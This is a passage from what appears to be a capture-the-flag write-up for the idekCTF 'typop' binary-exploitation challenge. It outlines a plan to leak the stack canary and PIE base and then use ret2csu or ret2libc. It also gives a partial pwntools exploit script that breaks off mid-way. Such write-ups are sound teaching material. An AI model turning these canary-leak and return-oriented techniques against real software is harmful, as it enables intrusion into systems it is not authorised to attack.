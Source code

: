 Note: the rdx gadget wasn't necessary and it just rubish, i have an idea to use that gadget to solve with ret2win since the payload max size is just `0x5a`
but i failed to execute it and to lazy to debug nor delete it hehe i'm sorry.

So to summarize to solve this chall we need to leak canary -> put back so it won't crash -> leak pie -> search gadget -> solution. and i found 3 solution to
solve this challenge (actually 2 because 1 wasn't work) 

1. ret2csu(intended) 
2. ret2libc 
3. ret2win with libc gadget (pop rdx)

Here's my complete solution
```python
# idekCTF easiest pwn chall, but i'm too noob to solve it that fast

from pwn import *
from time import sleep

exe = "./chall"
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

cmd = '''
'''

# +++local+++
# p = process(exe)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# gdb.attach(p)

# +++remote+++
p = remote('typop.chal.idek.team', 1337)
libc = ELF('libc6-i386_2.31-17_amd64.so') # it's not the correct one, already tried to search it

# =========================================Leaking canary========================================

p.recv()
p.sendline(b'y')

p.recv()
p.sendline(b'y'*10)

can_buff = p.recvuntil(b'Can you provide some extra feedback?').split(b'\n')
indx = 2 # sometimes 1,2 
canary = u64(can_buff[indx][:7].rjust(8, b'\x00')) 
win_buff = u64(can_buff[indx][7:].ljust(8, b'\x00'))
info("canary: %#x", canary)
info("stack: %#x", win_buff)

payload = flat(
    b'y' * 10,
    canary
)

p.sendline(payload)

# =========================================Leaking piebase=======================================

p.recvuntil(b'Do you want to complete a survey?')
p.sendline(b'y')

payload = flat(
    b'y' * 25
)
```